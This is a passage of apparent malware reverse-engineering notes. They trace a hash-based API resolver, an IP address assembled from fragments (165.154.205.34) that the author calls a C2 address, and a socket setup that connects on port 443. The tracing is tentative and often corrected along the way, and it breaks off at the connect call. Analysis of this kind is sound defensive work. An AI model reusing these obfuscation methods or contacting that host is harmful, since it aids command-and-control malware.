0x4bf: ecx=0xe553a458
0x4c4: mov [rbp+0xa8], rax (D)
0x4cb: call -> result E
0x4d0: ecx=0x5fc8d902
0x4d5: mov [rbp+0x90], rax (E)
0x4dc: call -> result F
0x4e1: ecx=0x614d6e75
0x4e6: mov rdi, rax (F) [overwrites B]
0x4e9: call -> result G
0x4ee: ecx=0x803428a9
0x4f3: mov [rbp+0x98], rax (G)
0x4fa: call -> result H
0x4ff: ecx=0x4d7b1e12
0x504: mov r13, rax (H)
0x507: call -> result I
0x50c: ecx=0xd0eb608d
0x511: mov r12, rax (I)
0x514: call -> result J
0x519: ecx=0x70f2fa31
0x51e: mov rsi, rax (J)
0x521: call -> result K
0x526: ecx=0xe449f330
0x52b: mov rbx, rax (K)
0x52e: call -> result L
0x533: lea rdx,[buffer]
0x53a: mov ecx,0x80
0x53f: call rax (L)
So:
A=hash 0x006b8029 stored [a0]
B=0xe0df0fea -> rdi
C=0x6174a599 -> r14
D=0x5f38ebc2 stored [a8]
E=0xe553a458 stored [90]
F=0x5fc8d902 -> rdi
G=0x614d6e75 stored [98]
H=0x803428a9 -> r13
I=0x4d7b1e12 -> r12
J=0xd0eb608d -> rsi
K=0x70f2fa31 -> rbx
L=0xe449f330 called with (0x80, buffer)
Then at 0x590 call rsi = J = 0xd0eb608d with sprintf-like args (rcx=buffer, rdx=format, r8=buffer, r9=path prefix, stack arg="log"). So hash 0xd0eb608d likely `sprintf`.
Then at 0x59? `33 d2` zero edx; lea rcx,buffer; `ff d3` call rbx = K = 0x70f2fa31 with rcx=buffer, edx=0. What API takes path and 0? Could be `CreateFileA`? Need 5 args; rcx=filename, edx=desired access=0, r8/r9 uninitialized. But maybe `DeleteFileA`? Takes one arg path. edx ignored. Hmm call K with filename likely `DeleteFileA` or `GetFileAttributesA` or `CreateFileA`. Then `33 db xor ebx,ebx; 85 c0 test eax,eax; 0f 84 68 05 00 00 je 0xb0e?` If K returns 0, jump to end. Could be `CreateFileA`? CreateFileA returns INVALID_HANDLE_VALUE (-1) on failure, not 0; test eax would be nonzero. If using `fopen`? `fopen(path,"r")` returns FILE* (rax), testing eax zero means failure. But `fopen` requires second arg in rdx=0 => NULL mode -> crash. Could be `GetFileAttributesA(path)` returns 0xffffffff on fail, not zero. `DeleteFileA` returns nonzero success, zero failure; on failure jumps to cleanup/end. This is likely: DeleteFileA(logfile) to remove old log. If succeeds (nonzero) continues. If fails, ends? Actually `je 0xb0e` if eax==0 (failure) goes to cleanup/end, which would make sense if it doesn't want to log? But maybe K is `CreateFileA`? Let's identify via subsequent use. After K, if success, it proceeds to format HTTP request and resolve socket APIs, then writes to log? Let's see.
At 0x5a0 onwards:
`33 db xor ebx,ebx`
`85 c0 test eax,eax`
`0f 84 68 05 00 00 je 0xb0e` (jump to end at 0xb0e)
Then at 0x5ac:
`48 8d 85 78 0d 00 00 lea rax,[rbp+0xd78]`
`c7 85 68 0d 00 00 77 36 34 00` writes "w64" at rbp+0xd68
`48 89 44 24 28 mov [rsp+0x28],rax`
`4c 8d 4c 24 60 lea r9,[rsp+0x60]`
`48 8d 44 24 58 lea rax,[rsp+0x58]`
`c7 85 70 0d 00 00 77 73 5f` writes "ws_" at rbp+0xd70
`4c 8d 44 24 68 lea r8,[rsp+0x68]`
`48 89 44 24 20 mov [rsp+0x20],rax`
`48 8d 54 24 48 lea rdx,[rsp+0x48]`
`c7 44 24 68 31 36 35 2e` -> "165." at rsp+0x68
`48 8d 8d 10 01 00 00 lea rcx,[rbp+0x110]`
`88 5c 24 6c` null at rsp+0x6c
`c7 44 24 60 31 35 34 2e` -> "154." at rsp+0x60
`88 5c 24 64` null
`c7 44 24 58 32 30 35 2e` -> "205." at rsp+0x58
`88 5c 24 5c` null
`c7 85 78 0d 00 00 33 34 00 00` -> "34\0" at rbp+0xd78
`88 9d 7c 0d 00 00` null
`c7 45 88 00 00 00 00`?
`88 5d 8c`
`c7 45 80 00 00 00 00`
`88 5d 84`
`c7 44 24 78 00 00 00 00`
`88 5c 24 7c`
`c7 44 24 70 00 00 00 00`
`88 5c 24 74`
`c7 44 24 48 25 73 25 73` -> "%s%s" at rsp+0x48
`c7 44 24 4c 25 73 25 73` -> "%s%s" at rsp+0x4c, forming "%s%s%s%s"
`88 5c 24 50` null
`c7 45 90 25 73 25 73` -> "%s%s" at rbp-0x70? Wait rbp+0x90? `c7 45 90` = [rbp-0x70] due signed -0x70. Hmm local offsets: rbp is after lea; rbp relative. `[rbp+0x90]`? Actually instruction `c7 45 90` uses disp8 0x90 signed = -0x70. So it writes at rbp-0x70. Earlier `mov [rbp+0x90]` used `48 89 85 90 00 00 00` disp32 +0x90; different. The c7 45 90 writes at rbp-0x70. This is format.
`88 5d 94` null.
Then calls rsi (hash J = sprintf?) at 0x68f? Wait:
At 0x5ac sequence, after writing formats:
`ff d6` at 0x68f? Let's map. It calls rsi with:
0x670: `48 8d 44 24 70` lea rax,[rsp+0x70]
0x675: `48 89 44 24 28` mov [rsp+0x28],rax
0x67a: `4c 8d 4d 80` lea r9,[rbp-0x80]
0x67e: `48 8d 44 24 78` lea rax,[rsp+0x78]
0x683: `4c 8d 45 88` lea r8,[rbp-0x78]
0x687: `48 89 44 24 20` mov [rsp+0x20],rax
0x68c: `48 8d 54 24 48` lea rdx,[rsp+0x48] (format "%s%s%s%s")
0x691: `48 8d 8d f0 00 00 00` lea rcx,[rbp+0xf0]
0x698: `ff d6` call rsi
So sprintf(output at rbp+0xf0, format "%s%s%s%s", arg1 r8=rbp-0x78 (empty string?), arg2 r9=rbp-0x80 (empty string?), arg3=[rsp+0x20]=rsp+0x78 (empty), arg4=[rsp+0x28]=rsp+0x70 (empty)). Wait all are empty strings? That doesn't make sense. Let's see the strings:
- At rsp+0x68 = "165." etc, rsp+0x60 = "154.", rsp+0x58 = "205.", rbp+0xd78 = "34", rbp+0xd68 = "w64", rbp+0xd70="ws_".
They set pointers:
rax = rbp+0xd78 -> "34"
[rsp+0x28] = rax (arg4)
r9 = rsp+0x60 -> "154."
rax = rsp+0x58 -> "205."
r8 = rsp+0x68 -> "165."
[rsp+0x20] = rax (arg3)
rdx = rsp+0x48 -> format "%s%s%s%s"
rcx = rbp+0xf0 -> output
call rsi = sprintf
So output = "165." + "154." + "205." + "34" = "165.154.205.34"? Wait order: format "%s%s%s%s": arg1 r8 = rsp+0x68 = "165."; arg2 r9 = rsp+0x60 = "154."; arg3 = rsp+0x58 = "205."; arg4 = rbp+0xd78 = "34". Result "165.154.205.34". Ah that's an IP address! Why format pieces to obfuscate? So output at rbp+0xf0 = "165.154.205.34". Good.
Wait the strings set at rsp+0x68/0x60/0x58 are "165.", "154.", "205.", and rbp+0xd78 "34". But note memory order: rsp+0x58 "205."; rsp+0x60 "154."; rsp+0x68 "165."; so yes concatenation "165.154.205.34". That's a C2 IP.
Next:
0x69a? `4c 8d 8d f0 00 00 00 lea r9,[rbp+0xf0]`
`4c 8d 85 10 01 00 00 lea r8,[rbp+0x110]`
`48 8d 55 90 lea rdx,[rbp-0x70]`
`48 8d 8d b0 00 00 00 lea rcx,[rbp+0xb0]`
`ff d6` call sprintf
So sprintf output at rbp+0xb0 with format at rbp-0x70 = "%s%s" (written earlier), arg1 r8 = rbp+0x110, arg2 r9 = rbp+0xf0. What is rbp+0x110? Not initialized? At 0x6a? Earlier `lea rcx,[rbp+0x110]` before first sprintf? Wait at 0x5? `48 8d 8d 10 01 00 00` at 0x5f? Let's check: In the setup, at 0x5f? `48 8d 8d 10 01 00 00` is `lea rcx,[rbp+0x110]` used as destination for first sprintf? Let's map 0x5ac-0x670 precisely:
0x5ac: 48 8d 85 78 0d 00 00 lea rax,[rbp+0xd78]
0x5b3: c7 85 68 0d 00 00 77 36 34 00 mov dword [rbp+0xd68], 'w64\0'? Actually writes "w64\0" at 0xd68.
0x5bd: 48 89 44 24 28 mov [rsp+0x28],rax
0x5c2: 4c 8d 4c 24 60 lea r9,[rsp+0x60]
0x5c7: 48 8d 44 24 58 lea rax,[rsp+0x58]
0x5cc: c7 85 70 0d 00 00 77 73 5f mov dword [rbp+0xd70], "ws_"
0x5d6: 4c 8d 44 24 68 lea r8,[rsp+0x68]
0x5db: 48 89 44 24 20 mov [rsp+0x20],rax
0x5e0: 48 8d 54 24 48 lea rdx,[rsp+0x48]
0x5e5: c7 44 24 68 31 36 35 2e mov dword [rsp+0x68], "165."
0x5ee: 48 8d 8d 10 01 00 00 lea rcx,[rbp+0x110]
0x5f5: 88 5c 24 6c mov [rsp+0x6c],bl
0x5f9: c7 44 24 60 31 35 34 2e mov dword [rsp+0x60], "154."
0x602: 88 5c 24 64 mov [rsp+0x64],bl
0x606: c7 44 24 58 32 30 35 2e mov dword [rsp+0x58], "205."
0x60f: 88 5c 24 5c mov [rsp+0x5c],bl
0x613: c7 85 78 0d 00 00 33 34 00 00 mov dword [rbp+0xd78], "34\0\0"
0x61d: 88 9d 7c 0d 00 00 mov [rbp+0xd7c],bl
0x623: c7 45 88 00 00 00 00 mov dword [rbp-0x78],0
0x62a: 88 5d 8c mov [rbp-0x74],bl
0x62d: c7 45 80 00 00 00 00 mov dword [rbp-0x80],0
0x634: 88 5d 84 mov [rbp-0x7c],bl
0x637: c7 44 24 78 00 00 00 00 mov dword [rsp+0x78],0
0x640: 88 5c 24 7c mov [rsp+0x7c],bl
0x644: c7 44 24 70 00 00 00 00 mov dword [rsp+0x70],0
0x64d: 88 5c 24 74 mov [rsp+0x74],bl
0x651: c7 44 24 48 25 73 25 73 mov dword [rsp+0x48], "%s%s"
0x65a: c7 44 24 4c 25 73 25 73 mov dword [rsp+0x4c], "%s%s" -> overlaps to "%s%s%s%s"? Let's see: at 0x48 dword bytes 25 73 25 73, at 0x4c dword 25 73 25 73, null at 0x50. Combined from 0x48: "%s%s%s%s" (8 chars) yes.
0x663: 88 5c 24 50 mov [rsp+0x50],bl
0x667: c7 45 90 25 73 25 73 mov dword [rbp-0x70], "%s%s"
0x66e: 88 5d 94 mov [rbp-0x6c],bl
0x671: ff d6 call rsi
Wait I may have shifted: There is no `lea rcx,[rbp+0xf0]` at 0x691? The first sprintf at 0x671 uses rcx set at 0x5ee to [rbp+0x110]? Let's re-evaluate exact addresses after 0x650:
Hex 00000650: 44 24 4c 25 73 25 73 88 5c 24 50 c7 45 90 25 73
00000660: 25 73 88 5d 94 ff d6 48 8d 44 24 70 48 89 44 24
00000670: 28 4c 8d 4d 80 48 8d 44 24 78 4c 8d 45 88 48 89
00000680: 44 24 20 48 8d 54 24 48 48 8d 8d f0 00 00 00 ff
00000690: d6 4c 8d 8d f0 00 00 00 4c 8d 85 10 01 00 00 48
000006a0: 8d 55 90 48 8d 8d b0 00 00 00 ff d6 b9 02 02 00
000006b0: 00 48 8d 95 70 07 00 00 ff 95 a0 00 00 00 85 c0
So:
0x651: mov dword [rsp+0x48], "%s%s"
0x65a: mov dword [rsp+0x4c], "%s%s"
0x663: mov [rsp+0x50], bl
0x667: mov dword [rbp-0x70], "%s%s"
0x66e: mov [rbp-0x6c], bl
0x671: call rsi
But rcx was set at 0x5ee to [rbp+0x110]. Is that right? Let's see before 0x651, the 0x5ee instruction was `48 8d 8d 10 01 00 00` = lea rcx,[rbp+0x110]. Yes. rdx = [rsp+0x48] format "%s%s%s%s", r8=[rsp+0x68] "165.", r9=[rsp+0x60] "154.", stack arg3=[rsp+0x58] "205.", stack arg4=[rsp+0x28]=rbp+0xd78 "34". So output at rbp+0x110 = "165.154.205.34". Great.
Then at 0x673:
0x673: lea rax,[rsp+0x70]
0x678: mov [rsp+0x28],rax
0x67d: lea r9,[rbp-0x80]
0x681: lea rax,[rsp+0x78]
0x686: lea r8,[rbp-0x78]
0x68a: mov [rsp+0x20],rax
0x68f: lea rdx,[rsp+0x48] format "%s%s%s%s"
0x694: lea rcx,[rbp+0xf0]
0x69b: call rsi
This builds another string at rbp+0xf0 from four empty strings (rbp-0x78, rbp-0x80, rsp+0x78, rsp+0x70). All are empty; so output = empty string. Why? Those locals likely are placeholders for optional URL/user-agent? But set to zero. Actually they might be "host", "path" built later? Wait they are zeroed but used immediately; likely they intended something but output empty. Could be decoy? Hmm.
Then at 0x69e:
0x69e: lea r9,[rbp+0xf0] (empty string)
0x6a5: lea r8,[rbp+0x110] (IP "165.154.205.34")
0x6ac: lea rdx,[rbp-0x70] format "%s%s"
0x6b3: lea rcx,[rbp+0xb0]
0x6ba: call rsi
Output at rbp+0xb0 = "165.154.205.34" + "" = "165.154.205.34". So host string is IP.
Then at 0x6bc:
`b9 02 02 00 00 mov ecx,0x202`
`48 8d 95 70 07 00 00 lea rdx,[rbp+0x770]`
`ff 95 a0 00 00 00 call [rbp+0xa0]` -> hash A=0x006b8029, likely `WSAStartup`. WSAStartup(wVersionRequested=0x202, LPWSADATA lpWSAData=&buf). Yes A is WSAStartup. Then test eax, jne error -> if nonzero jump 0xb0e.
Then:
`8d 53 01 lea edx,[rbx+1]` with ebx=0? Wait at 0x5a1 `xor ebx,ebx`; after operations ebx may still 0? Calls to sprintf may clobber? rbx is callee-saved, so remains 0. Thus edx=1.
`45 33 c9 xor r9d,r9d`
`89 54 24 28 mov [rsp+0x28],edx` (arg6? 1)
`8d 4b 02 lea ecx,[rbx+2]` = 2
`44 8d 43 06 lea r8d,[rbx+6]` = 6
`89 5c 24 20 mov [rsp+0x20],ebx` = 0
`ff d7 call rdi` (rdi = result F? Wait rdi overwritten at 0x4e6 = hash 0x5fc8d902? Actually rdi = F? Let's recalc registers after 0x4e6: rdi = result of hash 0x5fc8d902. Yes.)
So call `socket(AF_INET=2, SOCK_STREAM=1, IPPROTO_TCP=6, ...?)`? x64 args: rcx=2, rdx=1, r8=6, r9=0, stack args 0 and 1? Socket takes 3 args only; extra ignored. Good: `socket(2,1,6)`.
Then `48 8b f8 mov rdi,rax` overwrites rdi with socket handle, test rax, je error.
Then at 0x6e9:
`48 8d 8d b0 00 00 00 lea rcx,[rbp+0xb0]` host string
`c7 85 80 00 00 00 02 00 01 bb` writes sockaddr? Wait `c7 85 80 00 00 00 02 00 01 bb` = dword at [rbp+0x80] = 0xbb010002. That's bytes 02 00 01 bb -> family AF_INET (2), port? Network order port 0xbb01? Actually sockaddr_in: sin_family 2 bytes (02 00), sin_port 2 bytes. Stored little endian dword 0xbb010002 means bytes 02 00 01 bb. So sin_port bytes 01 bb = network-order 0x01bb = port 443 (0x01BB = 443). Yes port 443. Then `41 ff d5 call r13` (r13 = hash 0x803428a9) with rcx=host string, rdx=?? Wait call at 0x6f4? Let's see:
0x6e9 lea rcx,[rbp+0xb0]
0x6ed c7 85 80 00 00 00 02 00 01 bb
0x6f? 41 ff d5 call r13
But rdx? At this point rdx may be from previous sprintf? Need inspect: `41 ff d5` at 0x6f? The sequence:
0x6e4? Let's map 0x6d? Hex:
000006d0: 8d 4b 02 44 8d 43 06 89 5c 24 20 ff d7 48 8b f8
000006e0: 48 85 c0 0f 84 26 04 00 00 48 8d 8d b0 00 00 00
000006f0: c7 85 80 00 00 00 02 00 01 bb 41 ff d5 48 85 c0
00000700: 75 0c 48 8d 8d b0 00 00 00 41 ff d4 eb 09 48 8b
00000710: 40 18 48 8b 08 8b 01 89 85 84 00 00 00 41 bc 10
00000720: 00 00 00 eb 0b b9 10 27 00 00 ff 15 d0 0c 00 00
00000730: 45 8b c4 48 8d 95 80 00 00 00 48 8b cf 41 ff d6
At 0x6e9 lea rcx,[rbp+0xb0] (host name)
0x6f0 c7 85 80 00 00 00... writes sockaddr
0x6fa 41 ff d5 call r13
But r13 = result of hash 0x803428a9; likely `gethostbyname`. Args: rcx=hostname. Yes `gethostbyname(host)`. It then tests rax; if nonzero, at 0x700 `75 0c` jump to 0x70e? Actually `test rax; jne 0x70e`? Let's see 0x6fc `48 85 c0`, 0x6ff `75 0c` -> 0x70d? If hostent found, skip. Else `lea rcx,[host]; call r12` (r12 = hash 0x4d7b1e12) likely `inet_addr(host)` to convert IP string. Then `eb 09` jump to 0x71b. If gethostbyname success:
0x70d? `48 8b 40 18 mov rax,[rax+0x18]` (hostent->h_addr_list)
0x711 `48 8b 08 mov rcx,[rax]` (first address pointer)
0x714 `8b 01 mov eax,[rcx]` (IPv4 address)
0x716 `89 85 84 00 00 00 mov [rbp+0x84],eax` store in sockaddr sin_addr
Then at 0x71c `41 bc 10 00 00 00 mov r12d,0x10`
0x722 `eb 0b jmp 0x72f`
Else branch:
0x724 `b9 10 27 00 00 mov ecx,0x2710` (10000 ms)
0x729 `ff 15 d0 0c 00 00 call [rip+0xcd0]` = call [0x1400]? Wait IAT? At 0x1400? But .pdata? Actually 0x729 relative to 0x72f + 0xcd0 = 0x13ff? Maybe import address? At file 0x1400 is zero? Hmm no. Let's compute: instruction at 0x729 ff 15 d0 0c 00 00, next 0x72f, target 0x72f + 0xcd0 = 0x13ff. Data at 0x13ff maybe zero. But this is .pdata raw? Wait .pdata 0x1000-0x11ff, beyond 0x1200 file zeros. At 0x1400? The hex dump only up to 0x11f0, so 0x13ff not included? But file size likely 0x1200? The given dump ends 0x11ff. There is no 0x1400. Yet relocation maybe pointer to IAT? Hmm perhaps address calculation target from 0x72f is 0x13ff? Let's compute again: 0x72f + 0xcd0 = 0x13ff. That's beyond file. Could be call [rip+0xcd0] to a pointer stored at 0x13ff; but not present. Maybe because section .rdata at 0x2000 and IAT at 0x2000, but RIP relative to 0x72f + 0xcd0 = 0x13ff not 0x2000. Wait if instruction at 0x729, next 0x72f; +0xcd0 = 0x13ff (not 0x2000). Hmm maybe it's `call [rip+0xcd0]` where address 0x13ff, but file size 0x1200. Could be .text raw size 0xa00 from 0x400 to 0xdff, .rdata at 0xe00-0xfff, .pdata at 0x1000-0x11ff, then file ends 0x1200. The given dump ends 0x11ff. So target 0x13ff out of bounds. Did I misread displacement? Bytes `ff 15 d0 0c 00 00` at 0x729, target = 0x72f+0xcd0=0x13ff. Not mapped. Unless section .text raw size maybe 0xa00 starts 0x400 -> 0xdff, but .rdata raw pointer 0xe00, .pdata raw pointer 0x1000; 0x13ff not. Could the dump not include a section? It includes only up to 0x11ff, but file size maybe 0x13ff? Hmm the prompt says complete contents. At 0x1000 `.pdata` and zero from 0x1100 to 0x11ff. Maybe there is no 0x1200. So this call target is weird. Wait maybe instruction is at 0x72b? Let's recalc: hex line 0x720: `00 00 00 eb 0b b9 10 27 00 00 ff 15 d0 0c 00 00`
Offsets:
0x720 00
0x721 00
0x722 00
0x723 eb
0x724 0b
0x725 b9
0x726 10
0x727 27
0x728 00
0x729 00
0x72a ff
0x72b 15
0x72c d0
0x72d 0c
0x72e 00
0x72f 00
So `ff 15 d0 0c 00 00` begins at 0x72a, next 0x730, target 0x730+0xcd0=0x1400. Ah right. At 0x1400? Not in dump, but maybe IAT at RVA 0x2000? Wait file offset 0x1400 would be RVA? .data? No. Hmm maybe the call is to a pointer in .rdata at file 0x1400 but dump truncated? The dump ends 0x11f0, so no. But perhaps the hex dump is not complete? It says complete. Could be section .rdata raw pointer maybe 0x1200 not 0xe00? Let's recheck .rdata header pointer. At 0x200: `00 02 00 00`? It said:
0x1f0: 2e 72 64 61 74 61 00 00 be 01 00 00 00 20 00 00
0x200: 00 02 00 00 00 0e 00 00 00 00 00 00 00 00 00 00
0x210: 00 00 00 00 40 00 00 40
So PointerToRawData at 0x204 = 00 0e 00 00 = 0xe00. yes.
At 0x200 SizeOfRawData = 00 02 00 00 = 0x200. So file 0xe00-0xfff.
Then .pdata at 0x1000-0x11ff. File ends 0x1200.
But call target 0x1400 is outside. Maybe it's not RIP-relative? `ff 15` is call qword ptr [rip+disp32]. At runtime, RIP in loaded image = image base + RVA 0x1730? Wait code RVA is 0x1000, file 0x400 => RVA = file offset + 0xc00? Actually file 0x400 -> RVA 0x1000, so file 0x72a -> RVA 0x172a. Next RVA 0x1730. Target RVA = 0x1730 + 0xcd0 = 0x2400. Ah! I was using file offsets, but RIP-relative displacements are based on RVA, not file offset. The code at RVA 0x172a, target RVA 0x2400. That is in .rdata (VA 0x2000, size 0x1be) at offset 0x400. In file, RVA 0x2400 -> file offset 0x2400 - 0x2000 + 0xe00 = 0xc00. At file 0xc00? Hex at 0xc00? `0f b7 14 01 41 8b 4a 1c...` not pointer. Wait .rdata file range 0xe00-0xfff, RVA 0x2000-0x21be. RVA 0x2400 is beyond .rdata, in .pdata? .pdata VA 0x3000, so 0x2400 isn't mapped. Hmm let's compute RVA mapping properly: .text file 0x400 -> RVA 0x1000. So file 0x72a -> RVA 0x172a. Next RVA 0x1730. +0xcd0 = 0x2400. That is gap between .rdata (0x2000-0x21be) and .pdata (0x3000). Not mapped. So maybe displacement target is a table at RVA 0x2400? Not within dump. Could be IAT? Hmm.
Wait maybe code at file 0x72a is not call but `ff 15 d0 0c 00 00`; target RVA 0x2400. There is no data at RVA 0x2400. Could be `call qword ptr [rip+0xcd0]` but the pointer table should be at file 0x1000+? Let's compute file offset for RVA 0x2400 if mapped by headers? No section. But maybe .rdata raw size is 0x200 but virtual size 0x1be, so RVA gap 0x21be-0x2fff. Not.
Could be I misread relative displacement: `d0 0c 00 00` = 0xcd0 yes. Maybe call is at RVA 0x172b? Still 0x2400. Hmm.
Let's identify this as `Sleep(10000)`? The call is in else branch after gethostbyname failure? Wait branch: if gethostbyname succeeds, store first addr; else branch at 0x724 sets ecx=0x2710 and calls [0x1400 file/RVA 0x2400], then... There's no error handling? This might be `Sleep(10000)` imported? But there is no import. Could be an indirect call to some resolved API stored in a table? Let's examine code: after `cmp ...; jne ...`, it may be `call [rbp+?]` but no. Actually `ff 15 d0 0c 00 00` is indirect call through pointer at RVA 0x2400, which might be the IAT in an appended section not in dump? Hmm.
Maybe I should not overfocus; likely gethostbyname failure path sleeps and retries? Wait no loop here. Could be a call to `__imp_Sleep` or `GetTickCount`? But no imports. However `.rdata` maybe contains import table with RVA 0x216c? Data dir import RVA 0x216c. Wait .rdata VA 0x2000, import table at 0x216c. Import descriptor there. It may import `Sleep` from KERNEL32.dll. The IAT could be at 0x2000 or 0x2400? The IAT directory perhaps RVA 0x2000? Let's see data directory at 0x1a8 = 0x2000 size 0x10 maybe IAT. Then RVA 0x2400 not.
But import table at RVA 0x216c likely includes only Sleep? At file offset for RVA 0x216c = 0x216c - 0x2000 + 0xe00 = 0xf6c. At file 0xf6c bytes? Let's look at hex around 0xf60: `19 54 05 00 19 34 04 00 19 12 15 e0 98 21 00 00 00 00 ...`. At 0xf6c? Let's map .rdata raw. RVA 0x2000 corresponds file 0xe00. So RVA 0x216c file 0xf6c. At 0xf60 row:
0xf60: 19 54 05 00 19 34 04 00 19 12 15 e0 98 21 00 00
0xf70: 00 00 00 00 00 00 00 00 b0 21 00 00 00 20 00 00 ...
At file 0xf6c = 98 21 00 00? Let's index: 0xf60 bytes 0-15:
f60 19
f61 54
f62 05
f63 00
f64 19
f65 34
f66 04
f67 00
f68 19
f69 12
f6a 15
f6b e0
f6c 98
f6d 21
f6e 00
f6f 00
f70 00
...
At 0xf6c dword = 0x00002198. That's not import descriptor (which would begin OriginalFirstThunk, TimeDateStamp, ForwarderChain, Name, FirstThunk). Actually import descriptor at 0x216c should have 20 bytes. Here 98 21 00 00 = RVA 0x2198? Could be OriginalFirstThunk = 0x2198? Then next dword at 0x2170 = 0; Forwarder 0; Name maybe 0x21b0? Let's parse: at file 0xf6c (RVA 0x216c):
- dword 0x00002198 (OriginalFirstThunk RVA)
- dword 0x00000000 (TimeDateStamp)
- dword 0x00000000? Wait file 0xf70: 00 00 00 00; yes.
- dword at 0xf74? file 0xf74 = 00 00 00 00? Actually bytes f70-f77 = 00 00 00 00 00 00 00 00; then f78 b0 21 00 00 = 0x21b0. Let's map:
0xf6c: 98 21 00 00 -> OriginalFirstThunk=0x2198
0xf70: 00 00 00 00 -> TimeDateStamp=0
0xf74: 00 00 00 00 -> ForwarderChain=0
0xf78: b0 21 00 00 -> Name RVA=0x21b0 ("KERNEL32.dll" probably at RVA 0x21b0)
0xf7c: 00 20 00 00 -> FirstThunk=0x2000
0xf80: 00 00 00 00... So import table is at 0x216c; it imports something with IAT at RVA 0x2000. The name RVA 0x21b0 file offset f b0? Let's see file 0xfb0: `4b 45 52 4e 45 4c 33 32 2e 64 6c 6c 00...` = "KERNEL32.dll" at RVA 0x21b0. Yes. The thunk data at RVA 0x2198 file 0xf98: `a8 21 00 00 00 00 00 00` maybe import name RVA 0x21a8? At file 0xf98: `a8 21 00 00 00 00 00 00`; at RVA 0x21a8 file 0xfa8: `a7 05 53 6c 65 65 70 00` = hint 0x05a7 + "Sleep". Yes imports Sleep. The FirstThunk RVA 0x2000 corresponds file 0xe00 (IAT entry containing pointer to Sleep after load). So the `call [rip+0xcd0]` target RVA 0x2400 is not IAT. Wait maybe at runtime the instruction is `call qword ptr [rip+0xcd0]` RVA 0x2400. But IAT is at RVA 0x2000. Could displacement be 0x8d0? Let's recompute: bytes `d0 0c` = 0xcd0. Hmm.
Maybe instruction position is RVA 0x172a, target 0x172f? Wait RIP-relative effective address uses next instruction; we did. RVA 0x1730+0xcd0=0x2400. If target were IAT at 0x2000, displacement = -0x730 = 0xfffff8d0; bytes d0 f8 ff ff. Given bytes d0 0c 00 00. So no.
Could be call to an internal function at RVA 0x2400 that is not in dump because file offset? RVA 0x2400 would map to file offset 0x2400 - 0x2000 + 0xe00 = 0xc00 if section mapping .rdata with VA 0x2000 raw 0xe00. But .rdata virtual size 0x1be, so RVA 0x2400 exceeds. However section VirtualSize maybe 0x? Let's double-check second section VirtualSize. At 0x1f8 bytes `be 01 00 00` = 0x1be. Yes. SizeOfRawData 0x200. So only to 0x21be.
If RVA 0x2400 is in the gap? PE loader maps .rdata up to aligned max? Virtual size 0x1be aligned to 0x1000; .rdata occupies 0x2000-0x2fff. So RVA 0x2400 is within mapped .rdata page, zero-filled beyond raw data. The call would call a zero pointer? Unless the section raw size was larger? It could be a pointer placed at RVA 0x2400 but not in dump? Hmm.
Wait the `call [rip+0xcd0]` target is 0x2400, which is within .rdata's virtual page (0x2000-0x2fff), but not file data. Could be the IAT? Data directory IAT at 0x2000? The value at RVA 0x2400 would be zero because raw data only 0x200 bytes. So invalid. Maybe I miscomputed RVA of code. Code raw 0x400 maps to RVA .text VA 0x1000. Yes. File 0x72a -> RVA 0x172a. Correct.
Could the call actually be at file 0x728? `b9 10 27 00 00` from 0x724? Let's recount: at 0x720 line:
`00 00 00 eb 0b b9 10 27 00 00 ff 15 d0 0c 00 00`
Maybe code at 0x723 = `eb 0b` jump +0xb from 0x725 => 0x730. Then `b9 10 27 00 00` at 0x725 mov ecx,0x2710. `ff 15 d0 0c 00 00` at 0x72a. Yes.
Maybe `call [rip+0xcd0]` target = 0x730 + 0xcd0 = 0x1400? Wait if RIP is relative to beginning of next instruction in file offset, not RVA? CPU uses virtual addresses; at runtime code at image base + RVA 0x172a. So target image base + 0x2400. Correct. If it were file offset 0x72a at runtime? No.
Let's see if there is a function at RVA 0x2400? Not in provided dump. But maybe data at 0xe00 corresponds RVA 0x2000 and at 0xc00 corresponds RVA 0x1800? Wait mapping: file 0xc00 is in .text? .text raw starts 0x400, size 0xa00, so file 0xc00-0xdff is within .text raw! Wait .text raw size is 0xa00 from 0x400 to 0xdff. Yes! Code at file 0xc00-0xdff is within .text, mapped RVA 0x1800-0x19ff. Our disassembly at 0xc00-0xc30 belongs to text. At 0xc00: `0f b7 14 01...` is part of resolver. Then zeros to 0xdff. So .text extends to file 0xdff. .rdata at 0xe00. Good.
Target RVA 0x2400 is within .rdata VM but no raw data (beyond 0x21be). Could be call to IAT entry at 0x2400? Not.
Maybe section header .rdata VirtualAddress is 0x2000 and raw ptr 0xe00. If IAT at RVA 0x2000, call target 0x2400 no.
Could `call [rip+0xcd0]` be an anti-analysis / misdisassembly branch that never executes? It's in gethostbyname failure path? Let's see: At 0x6fa call r13 (gethostbyname). Test rax, jne 0x70d (success). Else path:
- lea rcx, host
- call r12 (inet_addr)
- jmp 0x71b
Where is Sleep? Wait we may have misread branch. Let's lay 0x700-0x730:
0x700: 75 0c jne 0x70e
0x702: 48 8d 8d b0 00 00 00 lea rcx,[rbp+0xb0]
0x709: 41 ff d4 call r12
0x70c: eb 09 jmp 0x717
0x70e: 48 8b 40 18 mov rax,[rax+0x18]
0x712: 48 8b 08 mov rcx,[rax]
0x715: 8b 01 mov eax,[rcx]
0x717: 89 85 84 00 00 00 mov [rbp+0x84],eax
0x71d: 41 bc 10 00 00 00 mov r12d,0x10
0x723: eb 0b jmp 0x730
0x725: b9 10 27 00 00 mov ecx,0x2710
0x72a: ff 15 d0 0c 00 00 call [rip+0xcd0]
0x730: 45 8b c4 mov r8d,r12d
0x733: 48 8d 95 80 00 00 00 lea rdx,[rbp+0x80] (sockaddr)
0x73a: 48 8b cf mov rcx,rdi (socket)
0x73d: 41 ff d6 call r14 (hash 0x6174a599) likely connect
Wait if success path goes to 0x70e, else 0x702, both then converge at 0x717, then 0x723 jumps over Sleep. So Sleep call at 0x72a is unreachable? Actually 0x723 jmp 0x730 always skips it. So the Sleep call block is dead code inserted? Maybe jump displacement at 0x723 `eb 0b` from 0x725 to 0x730, skipping 0x725-0x72f. So yes dead code, never executed. It calls Sleep(10000) if reached, but no path reaches it. This may be compiler-generated unreachable code or padding? It doesn't matter. But target 0x2400 may be IAT for Sleep? Wait IAT is at 0x2000 not 0x2400. Hmm but a dead call anyway.
Then at 0x730:
mov r8d,r12d ; namelen=16
lea rdx,[rbp+0x80] ; sockaddr
mov rcx,rdi ; socket
call r14 ; hash 0x6174a599, likely connect
